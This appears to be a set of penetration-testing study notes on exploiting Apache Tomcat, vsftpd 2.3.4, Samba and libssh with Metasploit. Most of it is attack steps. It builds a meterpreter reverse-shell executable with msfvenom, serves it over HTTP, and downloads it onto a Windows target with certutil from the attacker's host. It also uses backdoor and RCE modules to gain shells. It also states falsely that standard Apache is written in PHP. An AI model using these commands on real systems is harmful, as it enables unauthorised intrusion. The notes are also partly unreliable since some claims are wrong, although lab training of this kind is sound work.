 
### Apache Tomcat

**Standard** Apache server runs on port 80 or 443, but Apache **Tomcat** serves on port 8080.

Standart Apache is developed in PHP, but Apache Tomcat in Java.

Versions under 9 are vulnerable to **JSP** (JavaServer Pages) payload, especially v8.5.19

- `msf6 > use tomcat_upload_jsp_bypass`
    - `msf6 > set payload java/jsp_shell_bind_tcp`
    - `msf6 > set shell cmd`
    - `msf6 > run` - doesn’t give a meterpreter session
    - `C:\>`
    
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<> LPORT=<> -f exe -o shell.exe`
    - `python -m http.server 80`
    - `C:\> certutil -urlcache -f http://local.ip>/shell.exe shell.exe` - on a target
    - `msf6 > use multi/handler` - on the local host
        - …
    - `C:\ .\shell.exe`
    - `meterpreter >`
    

### Linux

### FTP

vsftpd is a FTP server for Unix like OSs. vsftpd v2.3.4 is vulnerable to a malicious **backdoor** that was added to the download archive of vsftpd through a supply chain attack.

- `msf6 > use vsftpd_234_backdoor`
- CTRL + Z
- `msf6 > sessions -u 1` - for a meterpreter session

OR

- `msf6 > use shell_to_meterpreter`
    - `set LHOST …`
    - `set SESSION 1`

### SAMBA

Samba v3.5.0 is vulnerable to **RCE** when an attacker uploads a shared library, and the server executes it.

- `msf6 > use samba/is_known_pipename`
    - `check` - for checking if a target is vulnerable
- `msf6 > use shell_to_meterpreter`
    - `set lhost …`
    - `set session 1`

### SSH

libssh is SSH library written in C, **libssh** v0.6.0 to 0.8.0 is vulnerable to authentication **bypass** vulnerability in the libssh server code.
